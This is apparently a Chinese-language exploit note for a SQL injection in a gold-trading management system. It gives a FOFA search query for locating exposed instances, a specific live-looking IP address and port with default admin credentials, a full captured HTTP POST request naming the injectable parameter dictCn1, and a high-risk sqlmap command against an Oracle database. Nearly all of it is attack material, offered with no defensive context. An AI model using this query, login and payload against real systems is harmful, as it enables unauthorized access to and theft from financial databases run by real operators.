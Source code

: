 fofa:
```plane
title="黄金通二级系统三代管理端"
```
测试账号
https://113.105.126.146:8900/  admin/123456

报文

```
POST /paraframework/queryTsDictionaryType.htm HTTP/1.1
Host: 113.105.126.146:8900
Cookie: JSESSIONID_null_8900=fhbgfoz89o5n1jf31529d0xhp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 44
Origin: https://113.105.126.146:8900
Referer: https://113.105.126.146:8900/paraframework/tsDictionaryTypeInfo.htm
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: close

page=1&dictEn1=SEATTYPE&dictCn1=席位代码

```
参数dictCn1存在SQL注入

sqlmap命
```plane
python sqlmap.py -r 1.txt --force-ssl --level 5 --risk 3 --dbms Oracle
```
![图片1](images/图片1.png)


